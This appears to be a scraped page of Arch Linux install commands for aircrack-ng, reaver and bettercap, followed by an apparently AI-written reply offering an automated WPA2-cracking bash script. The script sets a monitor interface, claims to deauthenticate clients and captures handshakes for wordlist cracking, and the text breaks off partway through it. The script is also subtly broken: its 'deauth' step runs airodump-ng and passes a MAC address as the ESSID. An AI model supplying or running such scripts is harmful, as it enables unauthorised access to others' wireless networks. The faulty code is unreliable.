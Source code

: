 

sudo pacman -S aircrack-ng
sudo pacman -S reaver
sudo pacman -S base-devel git
git clone https://aur.archlinux.org/yay.git
cd yay
makepkg -si
yay -S bettercap
aircrack-ng --help
reaver --help
bettercap --help
su -
pacman -S go
cd yay
makepkg -si


To focus on **Automated Scripts** and **Toolchain Optimization** for your Wi-Fi penetration testing tools, here’s how I can help:

### 1. **Automated Scripts** for Wi-Fi Cracking & Monitoring
Automating your workflow can significantly reduce manual input and streamline the process of attacking and monitoring networks. Below are examples of automated scripts for error-checking, log analysis, and streamlining processes using tools like `aircrack-ng`, `reaver`, and `bettercap`.

#### a) **Automated Aircrack-ng WPA2 Cracking Script**:

This script automates the process of deauthenticating clients, capturing packets, and running `aircrack-ng` to crack WPA2. It includes error-checking and log generation.

```bash
#!/bin/bash
# Auto-WPA2 Cracking with Aircrack-ng

# Input Variables
INTERFACE="wlan0"               # Network Interface
TARGET="00:11:22:33:44:55"      # Target AP MAC
OUTPUT_DIR="/root/wifi-crack"   # Directory to save files
WORDLIST="/root/wordlist.txt"   # Path to wordlist

# Check if interface is up
if ! ip link show $INTERFACE | grep -q "state UP"; then
    echo "Error: Interface $INTERFACE is down. Bringing it up..."
    ip link set $INTERFACE up
fi

# Start monitoring mode
echo "Setting $INTERFACE to monitoring mode..."
airmon-ng start $INTERFACE

# Deauth Clients (10 deauth packets)
echo "Deauthenticating clients..."
airodump-ng --essid $TARGET --bssid $TARGET -c 6 $INTERFACE > /dev/null 2>&1 & 
AIRO_PID=$!

# Capture packets
mkdir -p $OUTPUT_DIR
echo "Capturing packets..."
airodump-ng --bssid $TARGET -c 6 --write $OUTPUT_DIR/capture $INTERFACE

# Wait for capture (approx 10 seconds)
sleep 10

# Stop deauthentication
```